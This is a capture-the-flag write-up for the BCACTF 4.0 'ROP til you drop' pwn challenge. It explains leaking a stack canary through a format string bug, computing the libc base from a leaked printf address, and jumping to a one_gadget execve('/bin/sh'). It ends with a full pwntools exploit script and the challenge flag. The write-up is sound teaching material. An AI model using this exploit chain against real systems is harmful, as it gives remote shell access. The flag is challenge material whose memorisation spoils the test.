



# BCACTF 4.0 2023 - ROP 'til you drop Writeup

# Challenge Description
```
DANCE! DANCE! DAOCE! DROCE! ROCE! ROPE! ROP! ROP! ROP!
Rop till you drop.

nc challs.bcactf.com 30344

Author: Andrew
Category: pwn
```

Challenge Files: [roptilludrop](https://storage.googleapis.com/bcactf/roptiludrop/roptiludrop), [libc-2.31.so](https://storage.googleapis.com/bcactf/roptiludrop/libc-2.31.so)

# TL;DR
Was given a [stack canary](https://ir0nstone.gitbook.io/notes/types/stack/canaries) enabled, [PIE](https://ir0nstone.gitbook.io/notes/types/stack/pie) binary. To get around the canary, had to leak the canary using a [format string bug](https://ir0nstone.gitbook.io/notes/types/stack/format-string) present in the program and embedding the leaked canary in the input. Need to be careful with the input length in format string as it might overwrite the saved canary. See [Detailed Solution](#detailed-solution) for more on canary leak and bypass.

The name suggests we need to use some [ROP](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming) technique to get our coveted shell. But as PIE is enabled, ROP chaining is not straightforward because the address space changes each time we run the binary. To chain ROP [gadgets](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/gadgets) we need to defeat PIE. One common way to do that is through a leaked address.
I've used [one_gadget]([david942j/one_gadget: The best tool for finding one gadget RCE in libc.so.6 (github.com)](https://github.com/david942j/one_gadget)) to perfrom re2libc attack and call `execve("/bin/sh", 0, 0)`. The program was leaking `printf()`'s address. I used that to get the libc base and add the offset found from one_gadget tool to directly jump to `execve()` execution.

Final Exploit Script: [solve.py](#solvepy)

> **If you're not familiar with the techniques mentioned, I recommend clicking on the links above to gain a better understanding.**

# Detailed Solution

## Initial Analysis
First, lets check the file info and the protections enabled on it.
```bash
$ file roptiludrop
roptiludrop: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=952f9eb47468c4de465033ac5167308b6f375d59, for GNU/Linux 3.2.0, not stripped
```
We've got a 64-bit, dynamically linked executable with PIE enabled. The binary is not stripped, meaning we have the function names intact which would greatly help us debug inside gdb.
```bash
$ checksec roptiludrop
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
`checksec` is a utility that comes with pwntools. [GEF](https://github.com/hugsy/gef) also has it. So, all the standard protection mechanisms including stack canary are enabled on the binary.

As PIE and CANARY both are enabled, we'd have to leak the CANARY first and then leak some address from memory to get around PIE restriction. Fortunately, the program is already leaking the address of `printf()` as we see after running the binary.
```bash
$ ./roptiludrop
DO NOT STOP ROPPING
> AAAA
AAAAWhat is this? 0x7f64b16e4770

DO NOT STOP ROPPING
> BBBB
```

## Looking at Ghidra
After doing the black-box analysis, lets open the program in Ghidra to look at the decompiled version of our program binary.


`main()` is calling a function `life()`. Lets take a look at it.



Ow! We have lots of opportunities to exploit the program (do we really?). We have a `gets()` call, format string bug in `printf()` after the gets(), also an `fread()` of more than the `buf` size. At the end, there's a call to `__stack_chk_fail()` which will be called if the saved `stack canary` on the stack gets overwritten to some other value and the program will exit from there, which we don't want.

## Goal
Our stack looks like following with the stack canary:
```
--------------------------------
+  Return Address              +
--------------------------------
+  RBP                         +
--------------------------------
+  Some Junk                   +
--------------------------------
+  CANARY                      +
--------------------------------
+                              +
+  buf[24]                     +
+                              +
--------------------------------
```
With the first `gets()` function, we can't arbitrarily overwrite `buf` as it'd overwrite CANARY and call `__stack_chk_fail()`. Our goal is to keep the CANARY intact and also overwrite **return address** to control execution as we want. So we have to somehow leak the CANARY first.

## Patch binary
Before we move on to our exploitation, we need to patch the binary first so that they use the corresponding `libc.so.6` as the given `libc` in the problem files. This is a crucial step because, by default, a program uses the local libc of the underlying system where its running. But the local libc and remote libc might not match rendering our ret2libc attack unsuccessful because the instruction offsets vary in different libc versions. So we have to patch the binary to use the libc matching that of the remote server.

We can see which libc and linker our program will be using through `ldd` :
```bash
$ ldd roptiludrop
	linux-vdso.so.1 (REDACTED_ADDRESS)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (REDACTED_ADDRESS)
	/lib64/ld-linux-x86-64.so.2 (REDACTED_ADDRESS)
```
So its using our local libc. We'll use [pwininit](https://github.com/io12/pwninit) to patch the binary the used libc matches the remote server's. After running `pwninit`, lets `ldd` now:
```bash
$ ldd roptiludrop_patched 
	linux-vdso.so.1 (REDACTED_ADDRESS)
	libc.so.6 => ./libc.so.6 (REDACTED_ADDRESS)
	./ld-2.31.so => /lib64/ld-linux-x86-64.so.2 (REDACTED_ADDRESS)
```
`libc.so.6` file is changed. Lets check its libc version.
```bash
$ strings libc.so.6 | grep "Ubuntu GLIBC"
GNU C Library (Ubuntu GLIBC 2.31-0ubuntu9.2) stable release version 2.31.
```
With the binary now patched, we can now proceed to our primary objective of exploitation.

## Leak CANARY (exploit fmt string vuln)
We will use the format string vulnerability of `printf()` which is right after the `gets()` function. After experimenting for a while I found that the `9th` value off the stack is our canary. How did I know that? Simple. Pass a number of `%p` as the input to `gets()` and check the output values to see which one is our CANARY value. You can get the canary value by setting breakpoint right after the CANARY is being stored on the stack (offset `21` in `life()`).

For setting breakpoint: run `b *life+21` in GEF. We can directly use function names to set breakpoints as the binary is not stripped. This is very convenient for us. We can't use addresses to set breakpoint because addresses would be changed each time we run the binary because of PIE. But setting breakpoint using function names lets us get around that as the name would be replaced by whatever the function's beginning address is by GEF.
```bash
$rax   : 0x409a1aebdad75a00 <== CANARY
$rbx   : 0x00555555555350  →  <__libc_csu_init+0> endbr64 
$rcx   : 0xc00             
.............
.............
   0x55555555522f <life+8>         sub    $0x20, %rsp
   0x555555555233 <life+12>        mov    %fs:0x28, %rax
 → 0x55555555523c <life+21>        mov    %rax, -0x8(%rbp) <== breakpoint
   0x555555555240 <life+25>        xor    %eax, %eax
```
As we can see from above, the canary is `0x409a1aebdad75a00`. On linux, the last byte of  CANARY is always `/x00`.

While sending payload through the first `gets()` we should be careful so that we don't overwrite the saved canary in the process. The CANARY was located at offset `24` from `buf`(found after experimenting in GEF). So we can send at max 24 bytes through `gets()`. But we don't need that much as CANARY is 9th valued leaked from stack through our format string vuln.



As seen in the above image, we've successfully leaked the CANARY! As we've used `%p` to leak values off the stack, all individual values are 8 byte long and prefixed with `0x`. We can use this in our final exploit script to isolate the canary from the rest of the output.

For newcomers, you can visit this great intro to format string: [Format String Bug - Binary Exploitation (gitbook.io)](https://ir0nstone.gitbook.io/notes/types/stack/format-string)

## Calculate libc base address
We need the base address of libc being used by the program (`glibc 2.31`) for our exploit to work. To get libc base address, we need the running address of a function inside libc. Then we get the offset of that function from libc's `symbol table`. By subtracting the running address from the offset, we get libc base address. We use the running address of `printf()` emitted by the program to get our libc base.

The function's offset remains the same within the same version of `glibc`. That means, if function `printf()` is at offset `0x64e10` in `glibc 2.31`, it'd always be at that exact same offset in all systems/programs using that same libc. But the offset would change in another version of libc, say `glibc 2.30`. So its important we get the correct libc base address for successful exploitation.

## Ret2Libc (one_gadget)
We're almost done with our exploitation process. Before sending the final payload through `fread()`, several things should be taken care of. First, to terminate `fread()` we need to send exactly `0x50` bytes. Otherwise, the program would hang because `fread()` only stops taking input either when it gets enough bytes in its input stream as indicated in its size parameter (3rd argument) or an `EOF`. As we'd be communicating over network, `EOF` implies end of connection which we can't afford as we intend to get a shell :) Next, the leaked CANARY has to be embedded in our payload in the right position (24 bytes into our payload).

After everything is set up properly, we have to find the address to return after we overwrite the return address on the stack. Now, there're few ways to do it. One would be setting up the stack to get an `execve()` call. But there's an easier way to do that and get a shell which is using [one_gadget](https://github.com/david942j/one_gadget). It finds us instructions in libc which can lead to RCE by calling `execve('/bin/sh', NULL, NULL)`.
```bash
$ one_gadget libc.so.6 

0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

```
`one_gadget` found 3 possible `execve()`call. It also gives us the corresponding offset in libc and the register value constraints those need to be satisfied so that the call succeeds. Setting breakpoint right at the `ret` instruction of `life()`, we can examine the register contents and check which constraints are satisfied. As we see in the below output from GEF, `r15` and `rdx` are 0 or `NULL`. So, we'd be using the offset `0xe6c81` (2nd instruction found by one_gadget) and add that with the base of libc to get the exact address of the `execve()` call.
```bash
$rdx   : 0x0        <== constraint satisfied       
......................
......................
$r8    : 0x19              
$r9    : 0x17              
......................
$r13   : 0x007ffe4e10c5e0  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0        <== constraint satisfied         
.......................
   0x55d1802052dd <life+182>      call   0x55d1802050c0 <__stack_chk_fail@plt>
   0x55d1802052e2 <life+187>      leave  
 → 0x55d1802052e3 <life+188>      ret    <== breakpoint
```
We have all the necessary building blocks to create the final exploit, which can be found below. When writing the script, it's important to handle responses from the remote program carefully and extract necessary addresses. Additionally, make sure to include the necessary bytes to the final payload to meet the `fread()` requirement of exactly `0x50` bytes.

## solve.py
```python
#!/usr/bin/env python3.8

from pwn import *

exe = ELF("./roptiludrop_patched")
libc = ELF("./libc-2.31.so")

context.binary = exe
# context.log_level = "debug"

gdbscript = """
    set follow-fork-mode child
    start
    b *life+21
    b *life+78
    b *life+122
    b *life+188
"""
def conn():
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = gdb.debug(exe.path, gdbscript=gdbscript)
    elif args.REMOTE:
        r = remote("challs.bcactf.com", 30344)

    return r

def main():
    r = conn()

    print(r.recvuntil("> ").decode())
    # send format string to leak stack
    # 9th value off the stack is our CANARY
    payload_1 = b"%p" * 9
    r.sendline(payload_1)
    response = r.recvuntil("> ").decode()
    print(response)

    # extract CANARY from the response
    leaks = response.split("What is this? ")
    CANARY = leaks[0].split("0x")[-1]
    print(leaks)
    print("Canary:", CANARY)
    CANARY = int(CANARY, 16)  # convert hex string to integer

    # extract libc PRINTF address from response
    PRINTF = leaks[1].split("\n")[0]
    print("PRINTF:", PRINTF)
    PRINTF = int(PRINTF, 16)

    # calculate address for execve("/bin/sh", 0, 0) call using one_gadget offset
    one_gadget_offset = 0xE6C81
    libc.address = PRINTF - libc.symbols["printf"]  # get libc base address
    print(f"Libc Base: {hex(libc.address)}")
    EXECVE = libc.address + one_gadget_offset

    # payload_2 (goes into fread()) must be of 0x50 bytes
    canary_offset = 24
    payload_2 = b"A" * canary_offset
    payload_2 += p64(CANARY)  # canary is at $rbp-8
    RBP = b"B" * 8  # Dummy RBP
    payload_2 += RBP + p64(EXECVE)
    payload_2 += b"C" * (0x50 - len(payload_2))

    r.sendline(payload_2)

    r.interactive()

if __name__ == "__main__":
    main()
```

## Flag
`bcactf{91066a89a6f8684acc354ed5381fe8a9a1ca35e5}`


